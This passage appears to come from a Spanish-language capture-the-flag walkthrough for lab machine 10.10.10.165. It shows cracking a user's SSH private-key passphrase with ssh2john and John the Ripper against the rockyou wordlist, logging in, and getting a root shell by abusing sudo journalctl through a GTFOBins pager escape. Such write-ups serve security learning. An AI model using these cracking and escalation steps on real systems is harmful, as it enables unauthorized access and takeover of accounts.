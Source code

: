\documentclass{assets/ipesethesis}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\BuiltInTok}[1]{#1}
\newcommand{\CommentTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textit{#1}}}
\newcommand{\ExtensionTok}[1]{#1}
\newcommand{\FunctionTok}[1]{\textcolor[rgb]{0.00,0.00,0.00}{#1}}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\OperatorTok}[1]{\textcolor[rgb]{0.81,0.36,0.00}{\textbf{#1}}}
\begin{document}
Hay la clave privado del usuario david pero esta protegida por contraseña. La tenemos que romper.

\hypertarget{ssh2john}{%
\subsection*{ssh2john}\label{ssh2john}}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{ssh2john.py}\NormalTok{ id_rsa }\OperatorTok{>}\NormalTok{ hash}
\ExtensionTok{john}\NormalTok{ --wordlist=/usr/share/wordlists/rockyou.txt hash}
\end{Highlighting}
\end{Shaded}

La contraseña de la id\_rsa a sido crackeada y ya nos podemos connectar con ssh

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ssh}\NormalTok{ -i id_rsa david@10.10.10.165 }
\end{Highlighting}
\end{Shaded}

\hypertarget{escalada-de-privilegio-para-root}{%
\subsection*{Escalada de privilegio para root}\label{escalada-de-privilegio-para-root}}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ls}\NormalTok{ -l}
\CommentTok{#Output}
\ExtensionTok{bin}

\BuiltInTok{cd}\NormalTok{ bin/}
\FunctionTok{cat}\NormalTok{ server-stats.sh}
\end{Highlighting}
\end{Shaded}

Vemos en este fichero que sudo puede executar \textbf{journalctl}

Vamos a la pagina de \href{gtfobins.github.io}{gtfobins} y buscamos por jounalctl

El \textbf{gtfobins} dice que hay que lanzar jounalctl con sudo y en otra linea poner \texttt{!/bin/sh}

\begin{quote}
{[}!{]} NOTA: cuando pone ! en otra linea quiere decir que hay que ejecutarlo en modo less. O sea hay que reducir la terminal para que se pueda introducir un nuevo commando. En este caso !/bin/sh
\end{quote}
\end{document}
